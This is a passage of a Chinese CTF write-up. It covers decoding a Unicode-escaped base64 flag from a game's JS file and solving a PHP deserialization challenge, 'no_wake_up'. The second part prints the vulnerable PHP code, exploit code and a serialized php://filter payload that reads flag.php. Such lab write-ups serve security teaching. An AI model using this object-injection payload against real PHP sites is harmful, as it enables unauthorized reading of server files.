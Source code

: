 所以说更改游戏分数必须看这个JS文件<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698569699731-a59e37a2-0e0b-4a82-8f1c-a9f21fbe4993.png#averageHue=%23fbfbfb&clientId=u35de8186-3912-4&from=paste&height=760&id=u2b417c64&originHeight=950&originWidth=1911&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=42000&status=done&style=none&taskId=u36c53d0a-a316-476a-b6a5-04b8a295513&title=&width=1528.8)<br />没有看到可控游戏参数，倒是看到了一串\u开头的类似编码的东西<br />有密码学基础的可以看出这是Unicode编码格式<br />`\u005a\u006d\u0078\u0068\u005a\u0033\u0074\u0068\u0059\u0057\u0051\u0033\u005a\u0044\u0041\u0030\u005a\u0043\u0030\u0030\u004e\u0047\u0049\u0030\u004c\u0054\u0051\u0032\u004f\u0054\u0059\u0074\u0059\u006a\u004e\u006c\u004e\u0053\u0030\u007a\u004d\u007a\u0052\u006b\u004e\u006a\u0064\u0068\u004e\u007a\u004d\u0033\u004e\u0047\u004e\u0039\u000a`<br />Unicode解码一把梭<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698570100050-6bab1955-13e5-4a67-9651-6230d89b8533.png#averageHue=%23fcfcfb&clientId=u35de8186-3912-4&from=paste&height=361&id=u9cf87778&originHeight=451&originWidth=1842&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=43229&status=done&style=none&taskId=u438bb009-41f8-4bac-a93f-59d8129d678&title=&width=1473.6)<br />base64<br />`ZmxhZ3thYWQ3ZDA0ZC00NGI0LTQ2OTYtYjNlNS0zMzRkNjdhNzM3NGN9`<br />base64解码一把梭<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698570320937-5aaf9b76-4c23-448e-8783-c9301b570747.png#averageHue=%23191c25&clientId=u35de8186-3912-4&from=paste&height=555&id=u80fccc4e&originHeight=694&originWidth=1077&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=232444&status=done&style=none&taskId=u9886b518-4343-45ce-8ff5-511e95ede2d&title=&width=861.6)<br />**得到flag：**<br />`flag{aad7d04d-44b4-4696-b3e5-334d67a7374c}`
<a name="Z90gT"></a>
### [WEEK2]no_wake_up
题目环境：<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698570649268-74096f48-ad3b-459f-a0de-b95bae19da49.png#averageHue=%23fcfbfb&clientId=u35de8186-3912-4&from=paste&height=301&id=u214b3994&originHeight=376&originWidth=705&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=28004&status=done&style=none&taskId=u06df629a-c1bb-4ff0-bb26-637e89290d4&title=&width=564)
```php
<?php
highlight_file(__FILE__);
class flag{
public $username;
public $code;
public function __wakeup(){
$this->username = "guest";
}
public function __destruct(){
if($this->username = "admin"){
include($this->code);
}
}
}
unserialize($_GET['try']);
```
**exp:**
```php
<?php
  class flag
{
  public $username = "admin";
public $code = "php://filter/read=convert.base64-encode/resource=flag.php";
}
$l=new flag();
echo serialize($l);
```
运行结果：<br />`O:4:"flag":2:{s:8:"username";s:5:"admin";s:4:"code";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";}`<br />上传payload<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698571020085-3b713f6b-3e99-4903-ae8b-dabede3dec60.png#averageHue=%23fbfaf9&clientId=u35de8186-3912-4&from=paste&height=310&id=u154ab0a2&originHeight=388&originWidth=1273&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=48764&status=done&style=none&taskId=u08e936de-eb3e-4a0c-ae74-623bc296801&title=&width=1018.4)<br />base64编码<br />`PD9waHANCiRmbGFnID0gImZsYWd7MTE5NmY2NzQtZjkwMi00YWEzLWI5M2MtNTUyYTgxNTUzMjlkfSI7`<br />base64解码<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698571148414-d80a5028-8116-493e-bad3-35aee8745023.png#averageHue=%23191b25&clientId=u35de8186-3912-4&from=paste&height=568&id=ud689292a&originHeight=710&originWidth=1459&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=306871&status=done&style=none&taskId=u349dd91a-de37-4e51-a066-1f0cb329c3f&title=&width=1167.2)<br />**得出flag：**<br />`flag{1196f674-f902-4aa3-b93c-552a8155329d}`